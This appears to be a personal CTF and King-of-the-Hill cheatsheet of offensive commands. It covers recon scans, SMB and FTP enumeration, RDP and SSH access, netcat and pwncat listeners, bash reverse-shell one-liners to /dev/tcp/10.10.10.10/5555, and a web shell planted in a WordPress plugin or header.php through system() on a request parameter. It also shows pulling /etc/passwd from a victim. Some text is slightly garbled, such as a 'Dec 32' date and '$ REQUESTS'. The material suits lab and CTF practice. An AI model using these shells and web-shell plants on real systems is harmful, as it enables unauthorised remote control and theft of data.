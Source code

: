 <h1>PFORM - CTF / KOTH - Cheatsheet</h1>

<h2>Change IP on all scripts in a folder</h2>

If you like me have a folders with reverse-shells and scripts for your CTF / Koth needs,

and your IP changes just before the game starts, and no script have the correct ip.

<b>pform@attacker~: </b><code>cd ~/super-ninja-scripts/</code>

<b>pform@attacker~script-folder/:<code> grep -rl 10.10.10.10 * | xargs sed -i 's/10.10.10.10/20.20.20.20/g'</code>

<b>In this example 10.10.10.10 is the old-ip and 20.20.20.20 is the new-ip.</b>

<h2>RECON</h2> 

<b>pform@attacker~: </b><code>rustscan -A 10.10.10.10</code>

<b>pform@attacker~: </b><code>sudo nmap -Pn -sV -sC -oN nmap.log 10.10.10.10</code>

<b>pform@attacker~: </b><code>gobuster -dir -e php,html,htm,txt,log,conf,flag -u http://10.10.10.10 -w /usr/share/wordlists/directory-list-2.3-medium.txt</code>

<b>pform@attacker~: </b><code>nikto -Display 1234EP -o report.html -Format htm -Tuning 123bde -host 10.10.10.10</code>

<h2>SMB</h2>

<b>pform@attacker~: </b><code>smbmap -H 10.10.10.10</code>

<b>pform@attacker~: </b><code>smbclient -L \\\\10.10.10.10</code>

<b>pform@attacker~: </b><code>smbclient -L \\\\10.10.10.10\\C$ -U guest -W WORKGROUP</code>


<h2>FTP</h2>

Is the host vuln to anonymous login?

<b>pform@attacker~: </b><code>ftp 10.10.10.10</code>

<b>pform@attacker~: </b>Login: <code>anonymous</code> Password: <code>anonymous</code>

Dont forget to check for hidden directories like this:

<b>pform@attacker~: </b><code>ls -la</code>

drwxr-xr-x pform pform 0069 Dec 32 00:00 .

drwxr-xr-x pform pform 0069 Dec 32 20:00 ..

drwxr-xr-x pform pform 0069 Dec 32 00:00 ... <b>     < - - - - - - - - - - - - ( 3 dots )</b>

-rw-r--r-x pform pform 0069 Dec 32 00:00 random-stuff.txt


<h2>RDP</h2>

I think remmina is slow, compared to xfreerdp. 

<b>+clipboard</b> makes it possible to copy from <b>attacker machine</b> to <b>victim machine</b>

<b>pform@attacker~: </b><code>xfreerdp +clipboard +window-drag /u:username /p:password /v:10.10.10.10</code>

<h2>SSH</h2>

<b>pform@attacker~: </b><code>ssh user@10.10.10.10 -p 22</code>

<b>pform@attacker~: </b><code>ssh -i id_rsa user@10.10.10.10 -p 22</code>

<h1>Listners</1>

<h2>Netcat</h2>

<b>pform@attacker~: </b><code>nc -lnvp 5555</code>

<h2>pwncat</h2> 
<code>git clone https://github.com/calebstewart/pwncat.git; cd pwncat</code>

<b>pform@attacker~: </b><code>pwncat -l -p 5555</code>
  
I prefer pwncat as you can just press<b>"CTRL+D"</b> and download and upload files like this:

<b>pform@local~: </b><code>download /etc/passwd</code>

<b>pform@local~: </b><code>upload ~/super-ninja-scripts/hightech-privesc-0day.py</code>

Then Press <b>"CTRL+D"</b> again to return to the reverse-shell.

<h1>Revers-Shell</h1>

<h2>Bash</h2>

/bin/bash -i >& /dev/tcp/10.10.10.10/5555

/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.10.10/5555 0>&1'

<h2>Wordpress ex.1</h2>

After logging in to the admin panel open the Plugin editor, in the bottom of a plugin.

Add <code>/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.10.10/5555 0>&1'</code>

<h2>Wordpress ex.2</h2>

<b>Edit "header.php" </b>

Under php tag

<code>echo system($ REQUESTS['cmd']);</code>

change request metod by left click

open upp burp and run command in the bottom of the page:

<code>cmd=whomai</code>

<code>cmd=/bin/bash -i >& /dev/tcp/10.10.10.10/5555 0>&1</code>




